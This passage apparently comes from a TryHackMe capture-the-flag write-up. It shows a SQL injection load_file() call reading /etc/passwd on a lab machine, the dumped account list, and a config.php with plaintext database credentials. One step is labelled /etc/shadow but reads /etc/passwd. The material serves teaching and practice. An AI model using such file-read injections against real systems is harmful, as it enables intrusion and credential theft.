 hmm, atleast we can create a file:
![](/assets/img/thm/yotd/Pasted%20image%2020220711183534.png)

loading `/etc/shadow`: `load_file('/etc/passwd')`

![](/assets/img/thm/yotd/Pasted%20image%2020220711185330.png)

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
mysql:x:105:108:MySQL Server,,,:/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:109:114::/var/lib/landscape:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```

So we have a username: `dylan`

reading contents of  `config.php`:

![](/assets/img/thm/yotd/Pasted%20image%2020220711185555.png)

```sh
<?php
	$servername = "localhost";
	$username = "web";
	$password = "Cda3RsDJga";
	$dbname = "webapp";

	$dbh = new mysqli($servername, $username, $password, $dbname);
	if ($dbh->connect_error){
		die("Connection failed: ". $dbh->connect_error);
	}
?>
```
